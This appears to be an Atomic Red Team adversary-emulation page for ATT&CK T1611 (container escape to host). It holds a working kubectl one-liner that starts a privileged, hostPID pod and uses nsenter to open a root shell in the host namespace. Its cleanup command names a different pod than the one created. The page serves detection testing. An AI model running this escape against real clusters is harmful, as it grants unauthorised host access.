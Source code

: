 # T1611 - Escape to Host
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1611)
<blockquote>Adversaries may break out of a container to gain access to the underlying host. This can allow an adversary access to other containerized resources from the host level or to the host itself. In principle, containerized resources should provide a clear separation of application functionality and be isolated from the host environment.(Citation: Docker Overview)

There are multiple ways an adversary may escape to a host environment. Examples include creating a container configured to mount the host’s filesystem using the bind parameter, which allows the adversary to drop payloads and execute control utilities such as cron on the host, and utilizing a privileged container to run commands on the underlying host.(Citation: Docker Bind Mounts)(Citation: Trend Micro Privileged Container)(Citation: Intezer Doki July 20) Gaining access to the host may provide the adversary with the opportunity to achieve follow-on objectives, such as establishing persistence, moving laterally within the environment, or setting up a command and control channel on the host.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Deploy container using nsenter container escape](#atomic-test-1---deploy-container-using-nsenter-container-escape)


<br/>

## Atomic Test #1 - Deploy container using nsenter container escape
In this escape `kubectl` is used to launch a new pod, with a container that has the host pids mapped into the container (`hostPID:true`). It uses the alpine linux container image. It runs with privilege on the host (`privileged:true`). When the container is launched the command `nsenter --mount=/proc/1/ns/mnt -- /bin/bash` is ran. Since the host processes have been mapped into the container, the container enters the host namespace, escaping the container.

Additional Details:
- https://twitter.com/mauilion/status/1129468485480751104
- https://securekubernetes.com/scenario_2_attack/

**Supported Platforms:** Linux





#### Attack Commands: Run with `sh`! 


```sh
kubectl --context kind-atomic-cluster run atomic-nsenter-escape-pod --restart=Never -ti --rm --image alpine --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

#### Cleanup Commands:
```sh
kubectl --context kind-atomic-cluster delete pod atomic-escape-pod
```



#### Dependencies:  Run with `sh`!
##### Description: Verify docker is installed.
##### Check Prereq Commands:
```sh
which docker 
```
##### Get Prereq Commands:
```sh
if [ "" == "`which docker`" ]; then echo "Docker Not Found"; if [ -n "`which apt-get`" ]; then sudo apt-get -y install docker ; elif [ -n "`which yum`" ]; then sudo yum -y install docker ; fi ; else echo "Docker installed"; fi
```
##### Description: Verify docker service is running.
##### Check Prereq Commands:
```sh
sudo systemctl status docker 
```
##### Get Prereq Commands:
```sh
sudo systemctl start docker
```
##### Description: Verify kind is in the path.
##### Check Prereq Commands:
```sh
which kind 
```
##### Get Prereq Commands:
```sh
curl -Lo ./kind https://kind.sigs.k8s.io/dl/v0.10.0/kind-linux-amd64
chmod +x ./kind
mv kind /usr/bin/kind
```
##### Description: Verify kind-atomic-cluster is created
##### Check Prereq Commands:
```sh
sudo kind get clusters 
```
##### Get Prereq Commands:
```sh
sudo kind create cluster --name atomic-cluster
```
##### Description: Verify kubectl is in path
##### Check Prereq Commands:
```sh
which kubectl 
```
##### Get Prereq Commands:
```sh
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod +x ./kubectl
mv kubectl /usr/bin/kubectl
```




<br/>
